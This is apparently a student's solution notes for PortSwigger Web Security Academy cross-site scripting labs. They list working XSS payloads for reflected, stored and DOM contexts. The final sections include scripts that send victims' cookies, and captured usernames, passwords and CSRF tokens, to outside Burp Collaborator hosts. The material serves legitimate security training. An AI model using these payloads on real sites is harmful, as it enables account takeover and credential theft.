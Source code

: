 ## [Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)
Use payload into search bar

## [Stored XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)
Use payload as a value into the POST payload

## [DOM XSS in `document.write` sink using source `location.search`](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)
Read source to breakout of element and execute payload

## [DOM XSS in `innerHTML` sink using source `location.search`](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)
Read source to breakout of element and execute payload (innerHTML will try to ban script and svg tag)

## [DOM XSS in jQuery anchor `href` attribute sink using `location.search` source](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink)
Read source and execute payload:
```
?returnUrl=javascript:alert(document.domain)
```

Exploitable code:
```
$(function() { $('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl')); });
```

## [DOM XSS in jQuery selector sink using a hashchange event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)

![[Pasted image 20250406220258.png]]
jQuery's `$()` selector function, which can be used to inject malicious objects into the DOM.

```
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```
## [Reflected DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected)
Check Burp and one of the response is a JSON of the search string
![[Pasted image 20250406230039.png]]

Tampering the searchTerm with a payload that escapes the JSON
![[Pasted image 20250406230121.png]]

## [Reflected XSS into attribute with angle brackets HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded)

Vulnerability + Payload:
`<input type=text placeholder='Search the blog...' name=search value="" onmouseover="alert(1)">`
![[Pasted image 20250406234435.png]]



```
javascript:alert(1)

```

## [Stored XSS into anchor `href` attribute with double quotes HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded)
Unsanitized url input
```html
                       <p>
                        <img src="/resources/images/avatarDefault.svg" class="avatar">                            <a id="author" href="http://www.dfsaf.com">lf</a> | 06 April 2025
                        </p>
```

## [Reflected XSS into a JavaScript string with angle brackets HTML encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded)
Vuln:
```html
                   <script>
                        var searchTerms = '' onerror='alert(1)';
                        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
                    </script>
```

```
'-alert(1)-'
```

## [Stored DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored)
The vuln lies in this function, where it only obfuscates the FIRST < and FIRST >

```
function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
```

## [Exploiting cross-site scripting to steal cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)

```javascript
<script>
fetch('https://8pyhekmpo423z0g2irg2twq17sdj1ep3.oastify.com', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
});
</script>
```

## [Exploiting cross-site scripting to capture passwords](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords)

```javascript
<input type="text" name="username">
<input type="password" name="password" onchange="dothis()">

<script>
    function dothis() {
    var username = document.getElementsByName('username')[0].value
    var password = document.getElementsByName('password')[0].value
    var token = document.getElementsByName('csrf')[0].value
    var data = new FormData();

    data.append('csrf', token);
    data.append('postId', 1);
    data.append('comment', `${username}:${password}`);
    data.append('name', 'victim');
    data.append('email', 'blah@email.com');
    data.append('website', 'http://blah.com');

    fetch('https://eewn3qbvdar9o6587x58i2f7wy2pqlea.oastify.com', {
        method: 'POST',
        mode: 'no-cors',
        body: data
    });
    };
</script>
```